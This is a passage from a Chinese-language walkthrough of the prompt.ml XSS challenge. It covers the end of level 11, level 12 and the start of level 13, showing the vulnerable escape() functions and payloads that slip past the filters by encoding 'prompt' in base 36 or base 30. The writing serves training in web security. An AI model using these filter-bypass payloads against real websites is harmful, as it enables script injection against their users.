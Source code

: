 ```
"(prompt(1))in"
```
这里就会构造出
```
<script>                                    
    var data = {"action":"login","message":"Welcome back, "(prompt(1))in"."};          
    if (data.action === "login")            
        document.write(data.message)        
</script>
```
这里的原因是因为"test"(alert(1))虽然会提示语法错误， 但是还是会执行js语句。类似的alert(1)in"test"也是一样。可以在控制台下使用F12执行

## level12 ##
```
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}  
```
这道题是10的翻版，但是修复了10的漏洞，所以这里要使用eval的黑科技。
```
parseInt("prompt",36); //1558153217
```
用这个函数得到加密的代码，然后，得到payload：
```
eval((1558153217).toString(36))(1)
```
还有各种特殊的方式：
```
eval(630038579..toString(30))(1)
 
// Hexadecimal alternative (630038579 == 0x258da033):
```
甚至可以直接暴力循环着self里的函数，找到prompt：
```
for((i)in(self))eval(i)(1)
```

## level13 ##
```
function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
    // a simple picture plugin
    try {
        // pass in something like {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            // default image source
```